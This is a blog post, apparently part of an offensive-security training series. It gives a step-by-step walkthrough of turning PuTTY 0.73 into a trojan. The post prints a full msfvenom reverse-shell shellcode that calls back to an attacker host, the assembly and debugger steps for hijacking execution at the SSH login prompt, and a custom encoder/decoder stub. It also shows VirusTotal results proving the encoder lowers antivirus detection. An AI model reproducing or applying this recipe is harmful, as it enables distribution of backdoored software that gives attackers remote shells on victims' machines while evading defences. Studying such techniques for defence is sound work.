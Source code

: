 :slug: backdooring-putty/
:date: 2020-06-25
:category: attacks
:subtitle: Trust no one
:tags: osce, backdoor, training, exploit
:image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/backdooring-putty/cover_sa53hg.webp
:alt: Photo by Dil on Unsplash
:description: This article will show a way of creating a backdoor that will be injected into PuTTY, a widely used software for accessing remote computers.
:keywords: Information, Security, Protection, Hacking, Exploit, Backdoor, OSCE, PuTTY, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/8OECtq8rrNg

= Backdooring PuTTY

The Internet is a dangerous place. It contains billions of points that can be
accessed using an ever-increasingly range of devices.
Endpoint protections are improving over time,
but there is always a new technique that overcomes them.

Antivirus software is a clear example of an endpoint protection method
that's constantly improving, trying to overcome its limitations.

Most antivirus offerings use signatures to detect malware. A signature is
nothing but a sequence of bytes.

As an example, I extracted the today's
link:https://www.clamav.net/downloads[Clamav AV signatures], picked a random
entry:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/backdooring-putty/clamav1_naoaqi.webp[Clamav signatures]

And put it on a file called `virus`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd f0  |0.ENT..Sa.......|
----

Check it using VirusTotal:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                true      0.102.3.0             Win.Trojan.SubSeven-2  20200624
----

And it's detected as an expected virus.

But then I changed a single byte: The last `f0` for an `fa`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd fa  |0.ENT..Sa.......|
----

And check it again:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                false     0.102.3.0                     20200624
----

The check failed! Antiviruses based on signatures are easily fooled.

In this post, we will be able to backdoor the latest available version
of PuTTY (0.73 to the date of this writing) with a reverse shell.
We will also try to evade today's modern antiviruses,
which are not only based on signatures but also on behavior.

== Strategy

The following are the steps that we will take to convert the original
`putty.exe` to its backdoored version:

. Find space to include our shellcode.
. Check the current `putty.exe` PE properties and modify them as needed.
. Add a shellcode.
. Redirect the execution flow of the application to our code.
. Restore execution flow.
. Encode shellcode to avoid antivirus detection.

== Finding space

If we are going to inject new code into a file,
we must find a memory block with the required space to manipulate
without modifying the normal flow of the application.

These "blank" spaces are known as *code caves* and are present on almost any
executable file. They are composed commonly of `0xCC`, `0x90`, or `0x00` bytes.

There are several tools that help us finding code caves. The tool I prefer
is link:https://github.com/EgeBalci/Cminer[Cminer]. Let's run it over our
`putty.exe` file, and tell it that looks for code caves of 500 bytes or more:

[source,console]
----
$ ./Cminer /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe 500
...
[*] Minimum cave size set to 500
[*] Extracting file header data...
/mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
Magic			010b	(PE32)
[*] Image Base: 00400000
[*] Start Address: 0x0046fe96
[*] Parsing file sections...
[>] .reloc     (0x509000/0x51011c)
[>] .rsrc      (0x4bd000/0x508030)
[>] .gfids     (0x4bc000/0x4bc0b4)
[>] .00cfg     (0x4bb000/0x4bb004)
[>] .data      (0x4b6000/0x4b6a00)
[>] .rdata     (0x48f000/0x4b5cac)
[>] .text      (0x401000/0x48e65e)
[*] Section parsing complete.
[*] Loading PE file...
[*] File Size: 1096080
[*] Starting cave mining process...
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[*] Mining finished.

[+] 4 Caves found.

[#] Cave 1
[*] Section: .rsrc
[*] Cave Size: 4027 byte.
[*] Start Address: 0x4c2660
[*] End Address: 0x4c361b
[*] File Ofset: 0xbae60

[#] Cave 2
[*] Section: .rsrc
[*] Cave Size: 4009 byte.
[*] Start Address: 0x4c15b1
[*] End Address: 0x4c255a
[*] File Ofset: 0xb9db1

[#] Cave 3
[*] Section: .rsrc
[*] Cave Size: 1737 byte.
[*] Start Address: 0x4c0e76
[*] End Address: 0x4c153f
[*] File Ofset: 0xb9676

[#] Cave 4
[*] Section: .00cfg
[*] Cave Size: 509 byte.
[*] Start Address: 0x4bb003
[*] End Address: 0x4bb200
[*] File Ofset: 0xb5403
----

We will use the last one for this example, which contains 509 bytes.

== Getting executable characteristics

The code cave we chose is located in the `.00cfg` PE section.

Sections are the way the different regions of the virtual memory of a PE
file are distributed. There are several predefined sections,
and each of them has specific purposes, mostly determined by the
characteristics than for the section name itself. In fact, the name
can be anything, and the PE header will have pointers to them.

There is a section called `.text`, which is commonly used to store the
executable code of the file. As that section is meant to be executable,
its characteristics are commonly `READ | EXEC`.

Likewise, there are other sections that hold initialized data and
global variables like `.data` and `.bss` whose contents are only meant to be
`READ | WRITE`, and not executed.

The section on which our code cave is located is `.00cfg`,
which is a non-standard section.
We can check its current characteristics using many tools.
I will use link:https://github.com/petoolse/petools[PE Tools]:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/petools1_hfv6og.gif[PE Characteristics]

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330665/blog/backdooring-putty/petools2_vm3gcp.webp[PE Characteristics]

As we can see, that section has currently only permissions to be read.
However, as we need to execute code there that will self-decode, we must
enable the `WRITE` and `EXEC` characteristics:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/backdooring-putty/petools3_tpnufm.gif[New PE Characteristics]

== ASLR

The `putty.exe` is a standalone executable. We may expect that the virtual
address space of an executable file at rest is the same as when
it's launched and a process instance is created. However, every time we
load `putty.exe` on a debugger, the address space changes on memory.
This is because  of something called *Address Space Layout Randomization*
or *ASLR*. This is protection added to executable files to make it hard
for attackers to link:../vulnserver-trun/[exploit overflows] using
absolute addresses.

It can be pretty annoying during a backdooring session, but it can be disabled
while we finish and can be enabled at the end. Let's do that:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330660/blog/backdooring-putty/aslr1_qmz2rc.gif[New PE Characteristics]

As you can see, I used link:https://ntcore.com/?page_id=388[CFF explorer] to
change the `DLL Characteristics` of the `putty.exe` file and disabled the
`DLL can move` option, which is the indicator of the presence of `ASLR`.

We must remember to be careful to use relative calculations
and avoid absolute addresses, or `ASLR` will take its toll at the end.

With that in place, we can start the backdooring process.

== A needed parenthesis

Before going into inserting new bytes into our file, we must check two things:
Whether the file is still working as originally expected
and if it's flagged as malicious.

The first check is easy:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330665/blog/backdooring-putty/working0_w3jbr0.gif[Still working]

It's still working.

The result of the second check is something expected:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty.exe
...
[*] Analysis Report: putty.exe (14 / 74): b28ceceac0b0564110d70eac176e151e616a744c6289ff5c86f2484fa987aca5
----

This tells us that 14 out of 74 antiviruses flag this new file as malicious.

In contrast, the original file was only flagged by 4:

[source,console]
----

$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
...
[*] Analysis Report: putty-orig.exe (4 / 73): 736330aaa3a4683d3cc866153510763351a60062a236d22b12f4fe0f10853582
----

We must keep those values in mind
to have something to compare our final file with.

Let's resume our process!

== Making up the code cave

Before injecting a shellcode, we need to locate the code cave on our file.
`Cminer` showed that it started at `0x4bb003`, and as we disabled `ASLR`,
we should be able to locate it at that exact address.
I will use link:https://x64dbg.com[x64dbg] a modern open-source debugger for
Windows:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330658/blog/backdooring-putty/codecave1_wuqfqt.gif[Finding code cave]

Great, as you can see, our code cave it's a region full of `0x00` bytes.
It's a good idea to change those `0x00` to something that doesn't block
the execution flow, like `NOPs` (`0x90`).
To do that, we need to select the addresses we want to modify, then
right-click on the `CPU` window, select `Binary` and finally `Fill with NOPs`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/fillnops1_xbm2b5.gif[Fill NOPs]

With that, we have an empty canvas to work on.

It is also a good idea to save every progress of the backdooring in a
separate new file, so we can go back if anything's not working.
To do that, we can issue `Ctrl+P` that will show the actual current changes
we've made and save the "patches" to a new file.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/patch1_u52yhv.gif[Patch1]

With that in place, we can start injecting instructions into our code cave.
The first thing we must do is save the current value of the CPU registers
and flags, so we can restore the normal flow of the application after
executing our shellcode. If we don't do that, the application will have
unexpected behavior, and the backdooring will be detected!

The instructions for saving the CPU registers and flags are:

[source,x86asm]
----
pushad          ; Push general purpose registers to the stack
pushfd          ; Push EFLAGS to the stack
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/pushadfd1_jqpd3u.webp[Save registers and flags]

At the end of our code cave, we should have to restore that information from
the stack. We will see that later.

We are now ready to inject the shellcode.

== Generating shellcode

As you probably know, a shellcode is a piece of carefully arranged bytes
that can execute anything, commonly a shell.

In our example, we will create a shellcode that connects back from the victim
to the attacker machine and serves a reverse shell.

To do that, we will use `msvenom`:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=443 EXITFUNC=none -f hex
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf
0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631
ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0
894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8001268
020001bb89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089
e357575731f66a125956e2fd66c744243c01018d442410c60044545056565646564e5656535668
79cc3f86ffd589e04e5646ff306808871d60ffd5bbaac5e25d68a695bd9dffd53c067c0a80fbe0
7505bb4713726f6a0053ffd5
----

Notice that I chose `LPORT=443` instead of the default `4444`. This will
hopefully help to disguise this reverse shell a little.

We can now insert those bytes on our code cave.

Here we can see the addresses
on where the `pushad/pushfd` instructions were injected:

[source,x86asm]
----
004BB004 | 60                    | pushad                                |
004BB005 | 9C                    | pushfd                                |
----

To make some room for any needed encoder/decoder, I will use the address
`004BB060` as the place where the shellcode will be placed. To inject the
shellcode, we must select the output of `msfvenom` in `hex` format, then
on the debugger select an address region large enough to fit our shellcode,
then right-click, select `Binary` and then `Paste`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330656/blog/backdooring-putty/pasteshell1_ma7nu3.gif[Paste shell]

Great! We can now save the changes to a new file `putty-02.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330658/blog/backdooring-putty/patch2_evbeco.gif[Patch2]

== Diverting execution flow

Now that we have our shellcode in place, we need to change the execution
flow of `putty.exe` to point to our code cave. You can choose at what part
of the execution you want to have the shellcode triggered. Some may want it to
happen at the very start, overwriting the entry point. In this example, we
will trigger it when the user connects to a server and the `login as:` text
appears:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330664/blog/backdooring-putty/loginas1_mhuzlp.webp[Login as]

Using our debugger, we need to find on where the `login as:` string is
issued:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/loginas2_g70yyf.gif[Login as]

We had two locations, and we need to know which of them is
the one we need, so we had to put breakpoints and check:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330667/blog/backdooring-putty/breakpoint1_q4z8dd.gif[Breakpoint]

We got a hit!

As you can see, we hit just before a `call`. I mentioned before that
we need to use relative calculations to overcome `ASLR` limitations.
That's why we will divert the execution *after* the `call`, here:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330656/blog/backdooring-putty/breakpoint2_lt8mdu.webp[Breakpoint]

Now, copy some instructions to a text file, starting at `0042D6F7`, so we
can later restore the execution to this point:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330659/blog/backdooring-putty/copy1_u9pul4.gif[Copy instructions]

Having done that, we need to make a jump to the first instruction of our code
cave. That instruction is `pushad` located at `004BB004`. Let's do that:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/jmp1_g13zyd.gif[Jump to code cave]

Now I will save the modifications to `patch-03.exe`.

Remember that we need to restore the execution flow after our
shellcode. Let's do that.

== Restore execution flow

To completely restore the execution of `PuTTY`, we need to do several things:

. Get the value of `ESP` *after* the execution of the `pushad/pushfd`
instructions.
. Get the value of `ESP` *after* the shellcode is completely executed.
. Get the offset using `ESP1 - ESP2 = offset`.
. Align `ESP` with the resulting offset.
. Pop back the CPU registers and flags using `popfd/popad`.
. Restore instructions overwritten by the `jmp` to the code cave.
. Jump to the next instruction after that jump.

=== Get ESP before shellcode

We can do that easily by putting a breakpoint after the `pushad/pushfd` calls
and taking note of `ESP`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/backdooring-putty/espbefore_ng575f.gif[ESP before]

The ESP value is `0019FE30`.

=== Get ESP after shellcode

This can be obtained after the shellcode is executed. Remember to open a
listener in the attacker machine:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330657/blog/backdooring-putty/espafter_r1inhq.gif[ESP after]

Great! We got the shell, and the `ESP` value is `0019FC30`.
However, the breakpoint was reached only *after* exiting the shell.
We will need to modify the shellcode later.

=== Get the offset

This one is easy: `0019FE30 - 0019FC30 = 0x200`.

=== Align ESP + Restore registers and flags

Now we need to point `ESP` to the value after `pushad/pushfd`. We also
need to restore the registers and flags. This can be done easily with:

[source,x86asm]
----
add esp,0x200
popfd
popad
----

We can now add that to our file:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330660/blog/backdooring-putty/restore1_z3xrgw.webp[Restore]

=== Restore instructions + Jump to normal flow

If you remember, the original point from where we diverted the execution was:

[source,x86asm]
----
0042D6F7 | 83C4 04               | add esp,4                             |
0042D6FA | 31C9                  | xor ecx,ecx                           |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              | eax:"SSH login name"
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

And the resulting instructions when we added the jump to our code cave were:

[source,x86asm]
----
0042D6F7 | E9 08D90800           | jmp putty-03.4BB004                   |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              |
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

That means that we overwrote two instructions: `add esp,4` and `xor ecx,ecx`,
and they need to be restored. We also see that the next instruction in
the normal execution flow is located at `0042D6FC`. So, to finish our
restoration, we need to add this:

[source,x86asm]
----
add esp,0x4
xor ecx,ecx
jmp 0x0042D6FC
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/restore2_udhuur.webp[Restore]

We can now save the changes to a new file `patch-04.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330665/blog/backdooring-putty/patchrestore1_fdusx4.gif[Patch restore]

At this point, we should be able to launch `PuTTY`, get a shell,
and resume normal execution:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330656/blog/backdooring-putty/working1_vvddgu.gif[Working]

However, as you can see, the execution is only resumed when the shell exits.

== Patching shellcode

That behavior is caused by the way the reverse shell was implemented on
`Metasploit`. It uses a call to `WaitForSingleObject` that instructs the
parent process to wait infinitely until the shell process is done.
This makes the shellcode more reliable, but for our purpose,
we need a different behavior.

The `WaitForSingleObject` function signature is:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject
[source,cpp]
----
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
----

Our reverse shell sets the value of `dwMilliseconds` parameter to `-1`,
which makes it wait forever for the process to finish.
That value is set at this position on the shellcode:

[source,x86asm]
----
004BB179 | 4E                    | dec esi                               |
----

We just need to change it to a `NOP` and we should be ready:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330657/blog/backdooring-putty/patching1_hzrnmz.gif[Patching shellcode]

Let's run our saved `putty-05.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/working2_adfozy.gif[Patching shellcode]

Mission accomplished! We've got now a fully functional, yet backdoored
`PuTTY`.

== Encoding our shellcode

Let's see how we are doing with antivirus detection:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-05.exe
[*] Analysis Report: putty-05.exe (27 / 71): 919677186373a27cd4de5a2f21fa854784c330abf67bc4abbc893a0a594d1d28
----

Not so great. To improve that metric, we will need to encode our shellcode
using a self-made encoder.

A common method is to use the `XOR` instruction on every byte, but an
average antivirus nowadays will be able to revert it easily. We are
going to try something more.

The mutations we perform over the code must be reversible,
so for the sake of this example, I will use this encoder strategy:

. `XOR` byte with key `0xD`.
. Add `0x2` to byte.
. Bit-wise negate byte.
. Rotate left 8 bits.

.encoder
[source,x86asm]
----
xor byte [eax],0xd
add byte [eax],0x2
not byte [eax]
rol byte [eax],0x8
----

And the decoder should be the instructions in reverse order:

. Rotate right 8 bits.
. Bit-wise negate byte.
. Sub `0x2` to byte.
. `XOR` byte with key `0xD`.

.decoder
[source,x86asm]
----
ror byte [eax],0x8
not byte [eax]
sub byte [eax],0x2
xor byte [eax],0xd
----

The encoder should be used only once, to mutate the file. Then, when the
encoded shellcode is in place, the decoder should be finally inserted so it
can self-decode on memory every time it's launched.

The full stub we are going to insert is:

[source,x86asm]
----
mov eax,<address where shellcode starts>    ; Make EAX a pointer to our shellcode
loop:                                       ; Loop starts here
<encoder or decoder>                        ; The encoder or decoder instructions
inc eax                                     ; Points EAX to the next byte of the shellcode
cmp eax,<address where shellcode ends>      ; Compare if EAX is pointing to the end of the shellcode
jne loop                                    ; If not, jump to the loop until we reach the end
----

=== Encoding

Let's encode the shellcode first:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/encoder1_fk2gug.webp[Encoder]

Save that changes to a file called `putty-06.exe`.

Now, we can watch the process of encoding in real-time:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/encoded1_ewvqb2.gif[Encoder]

Wonderful. Now, select those modified bytes, then right-click, then
`Binary`, then `Copy`. Restart the debugging session with `Ctrl+F2` and
go to that address region again and hit `Shift+V` to binary paste.

We are now ready to patch the file to a new one called `putty-07.exe`.

=== Decoding

All that's left is to replace the encoder with the decoder on our
`putty-07.exe` file:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330658/blog/backdooring-putty/decoder1_eqiq0o.webp[Decoder]

And save the patches in a file called `putty-final.exe`.

If everything comes as expected, `putty-final.exe` will run,
decode itself in memory, send us a reverse shell and resume normal execution.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330659/blog/backdooring-putty/success_qravpz.gif[PuTTY working]

Yes! Scary, huh?

== Antivirus detection

Now, let's see how our manually encoded `PuTTY` is tagged in VirusTotal:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-final.exe
....
[*] Analysis Report: putty-final.exe (10 / 72):
6b96ec9906e87bbed37570a83f9c1fcad0dd7a03ff705b1c23dc4f7f425c53ab
----

Awesome! We were able to lower the ratio of antivirus tagging from 27 to 10!

== Conclusion

The Internet is full of dangers.
We hope this article has shown you the risks
of running software obtained from untrusted sources.
